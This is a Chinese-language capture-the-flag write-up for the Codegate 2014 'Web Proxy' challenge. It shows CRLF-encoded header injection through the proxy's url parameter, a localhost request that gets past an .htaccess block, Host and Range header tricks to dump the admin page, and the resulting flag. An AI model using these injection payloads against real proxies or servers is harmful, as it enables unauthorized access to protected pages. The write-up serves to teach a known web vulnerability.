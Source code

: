 title: Codegate CTF Preliminary 2014 200 Web Proxy
date: 2014-2-26 2:24
category: web
tags: Codegate CTF, CRLF
slug: codegate_web_200_web_proxy

這題被 **orange** 秒殺了  
我是賽後才解出來的 Orz  
* * *  
  
網址點開是一個 proxy 頁面  
在 input form 輸入網址後  
會將網頁的部分內容和 header 印出來  

打開 source code 可以看到註解有提示  
*<!-- admin/index.php -->*  
嘗試用 proxy load 頁面看看:  
`http://58.229.183.24/188f6594f694a3ca082f7530b5efc58dedf81b8d/admin/index.php`  
> 403 Forbidden  

這題的方向應該很明確了  
透過 proxy 去存取 `admin.php`  
題目的環境是 **apache**  
應該是透過 `.htaccess` 去擋的  
不過似乎沒辦法拿到設定  

先隨便跳轉一個網頁  
`http://58.229.183.24/188f6594f694a3ca082f7530b5efc58dedf81b8d/index.php?url=www.google.com`  
會發現 proxy 是透過參數 `url` 決定轉址頁面  
猜測是透過 `header('Location:'+ $url);` 去做轉址  
如果 `$url` 沒有做過濾  
會有 **HTTP header CRLF injection**  
試試看猜測是否正確:  
```
http://58.229.183.24/188f6594f694a3ca082f7530b5efc58dedf81b8d/index.php?url=www.google.com%2f   
HTTP/1.1%0d%0a  
Host: 123%0d%0a  
%0d%0a  
```
> ...  
> Date: Tue, 25 Feb 2014 19:00:30 GMT  
> Server: gws  
> Content-Length: 261  
> X-XSS-Protection: 1; mode=block  

喔喔 看起來有反應  
還意外發現 google 的 **XSS protect** XD  
這邊我們可以偽造 header 竄改來源了  
但是網站好像有做過濾  
只要包含 `58.229.183.24` 都會被擋下來  
顯示 *Access Denied*  
改嘗試從 **localhost** 去連頁面:  
`url=localhost/188f6594f694a3ca082f7530b5efc58dedf81b8d/admin/`  
> HTTP/1.1 200 OK  
> Date: Tue, 25 Feb 2014 18:49:08 GMT  
> Server: Apache/2.4.6 (Ubuntu)  

如此就繞過 `.htaccess` 的限制了 lol  
由於這個 proxy 只會顯示網頁的部分內容  
在 header 加入 `Range` 可以控制顯示內容範圍  
```  
Host: 123%0d%0a  
Range: bytes=0-100%0d%0a  
%0d%0a  
```  

慢慢dump內容，結果發現...  
> Access Denied  
> \<br> 100  

好吧 看來 code 可能也是有做些存取限制  
嘗試改成 `Host: localhost`  
... fail again  
在這邊卡關了一陣子  
決定還是慢慢把全部內容 dump 出來  
結果發現這一段...  
> $\_SERVER[HTTP_HOST]=="hackme")-->\</body>  
> <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">  

所以改成 `Host: hackme`  
這題就過了  
> hello admin\<br>  
> Password is WH0_IS_SnUS_bI1G_F4N  

flag: `WH0_IS_SnUS_bI1G_F4N`  
